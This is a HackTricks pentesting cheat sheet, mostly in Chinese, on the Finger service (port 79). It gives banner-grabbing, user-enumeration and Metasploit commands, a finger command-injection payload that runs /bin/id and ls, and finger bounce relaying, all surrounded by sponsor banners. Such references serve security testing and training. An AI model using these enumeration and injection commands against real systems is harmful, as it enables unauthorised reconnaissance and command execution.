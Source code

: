 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用程序、网络和云

**查找并报告具有实际商业影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，查找允许您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **基本信息**

**Finger** 程序/服务用于检索计算机用户的详细信息。通常，提供的信息包括 **用户的登录名、全名**，在某些情况下，还包括其他详细信息。这些额外的详细信息可能包括办公室位置和电话号码（如果可用）、用户登录的时间、非活动时间（闲置时间）、用户最后一次阅读邮件的时间，以及用户的计划和项目文件的内容。

**默认端口：** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **枚举**

### **横幅抓取/基本连接**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **用户枚举**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
或者你可以使用 **finger-user-enum** 来自 [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)，一些示例：
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap 执行脚本以使用默认脚本**

### Metasploit 使用的技巧比 Nmap 更多
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## 命令执行
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[使用系统作为指纹中继](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用、网络和云

**查找并报告具有实际业务影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，发现让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
